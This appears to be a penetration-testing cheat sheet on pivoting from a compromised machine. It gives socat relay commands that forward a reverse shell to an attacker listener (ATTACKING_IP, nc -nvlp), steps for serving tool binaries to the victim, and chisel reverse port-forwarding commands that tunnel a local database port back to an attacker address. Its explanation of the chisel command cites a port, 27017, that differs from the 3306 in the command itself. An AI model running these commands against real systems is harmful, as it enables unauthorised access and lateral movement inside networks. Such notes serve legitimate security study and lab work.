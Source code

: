#### Useful binaries 
https://github.com/andrew-d/static-binaries

#### Socat 
>If we have gain access to a machine then socat can encrypted create a relay on compromised machine and we can get a reverse shell on another machine and socat forwards to our machine.
>Can be used in both linux and windows systems.
>Can be used to create encrypted port forward and relays.
```
sudo python3 -m http.server 80
Download the binary in compromised host using curl/wget.
```

##### In local machine 
>nc -nvlp 7000

##### In Compromised Machine
>./socat tcp-l:8000 tcp:ATTACKING_IP:7000 &

#### Killing Socat Connections
```
jobs
kill PID
```

#### Chisel

##### Reverse Port Forwarding with Chisel
###### In attacking machine
```
chisel server --host 10.50.102.117  -p 1234 --reverse

    server: run the server mode
    -p : port for the server to listen on
    --reverse: allows reverse port forwarding
```
###### In Compromised Machine

```
chisel client 10.50.102.117:1234 R:2222:127.0.0.1:3306/tcp

    client : run the client mode
    10.50.102.117:1234 : the IP address of the attacker’s machine and the port that was specified in the chisel server command
    R:2222:127.0.0.1:27017/tcp: the R means we want to perform a reverse port forward; 2222 is the port number we want to use to route traffic through on the attacker’s machine; 127.0.0.1:27017 is the IP address/port we want to route our traffic to on the client’s machine; /tcp means we want to use the TCP protocol.
```
>The previous commands will allow us to access the service running locally on the remote machine on port 2222 on the attacking machine.

